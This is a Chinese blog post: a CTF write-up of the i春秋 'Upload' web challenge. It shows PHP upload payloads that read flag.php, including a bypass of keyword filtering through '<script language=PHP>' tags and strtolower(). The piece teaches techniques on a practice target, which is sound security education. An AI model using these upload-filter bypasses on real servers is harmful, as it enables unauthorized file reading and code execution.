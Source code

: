 ```yaml
---

layout: post
title:  CTF竞赛-文件上传
description: 本文为CTF web网络攻防方向，主要记录文件上传的题目
date:   2021-03-25 18:56:31 +0800
image:  '/images/gallery/sappho-and-alcaeus.jpg'
tags:   [网络安全, CTF]
mathjax: true
---
```


> <cite>Title: Sappho and Alcaeus  
Creator: Lawrence Alma-Tadema  
Creator Lifespan: 1836/1912  
Creator Nationality: Dutch and British  
Date Created: 1881  
Physical Dimensions: w122 x h104.1402 cm  
Type: oil paintings; panel paintings  
Medium: oil on panel  
Artist: Sir Lawrence Alma-Tadema, R.A., O.M.  </cite>  

CTF竞赛题目类型主要包含 _Web 网络攻防_ 、 _Reverse 逆向工程_ 、 _Pwn 二进制漏洞利用_ 、 _Crypto 密码攻击_ 、 _Mobile 移动安全_ 以及 _Misc 安全杂项_ 这六个类别。

本文为web网络攻防方向。

## 赛题

### 初始来源

#“百度杯”CTF比赛# #九月场# #Upload#

### 赛题传送门

<a href="https://www.ichunqiu.com/battalion?t=1" target="_blank">i春秋CTF大本营</a>  

【赛题类型】—>【CTF训练】

【比赛名称】—>【全部】

【题目类型】—>【Web】

选择价值 _50pt_，类型为 _Web_，名称为【Upload】的题目：

![image-20210324144139821](images/posts/ctf/image-20210324144139821.png)

## 解题过程

进入到靶场环境后，得到如下的初始页面：

![image-20210324144309647](images/posts/ctf/image-20210324144309647.png)

根据题目的提示tips：flag在flag.php中，可以推测本题目是想通过上传文件，并通过执行文件读取flag.php源码，来获取flag。

先随意上传一张图片看看效果：

![image-20210324145416668](images/posts/ctf/image-20210324145416668.png)

发现**【上传成功!】**是个超链接可以点击，点击后是查看上传文件：

![image-20210324145532512](images/posts/ctf/image-20210324145532512.png)

由此得出，可以通过文件上传来构造读取flag.php的源码。

先构造最简单直接的版本：

```php
<?php
$file = fopen("../flag.php", "r");
echo fread($file, filesize("../flag.php"));
fclose($file)
?>
```

上传后，得到

![image-20210324150835203](images/posts/ctf/image-20210324150835203.png)

发现并没有执行，并且**php**后缀都被过滤掉了，尝试将 **?php**  使用 **<script>** 绕过，代码中的 **.php** 使用大写绕过：

```php
<script language=PHP>
$file = fopen("../flag.".strtolower("PHP"), "r");
echo fread($file, filesize("../flag.".strtolower("PHP")));
fclose($file)
</script>
```

上传后，得到：

![image-20210324151330884](images/posts/ctf/image-20210324151330884.png)

此时并没有输出错误，说明执行成功了，**【F12】查看网页源码**：

![image-20210324151407995](images/posts/ctf/image-20210324151407995.png)

至此，得到flag。

## 总结

本题目相对简单，主要考察php文件读取，以及简单的针对关键字过滤的绕过技巧。
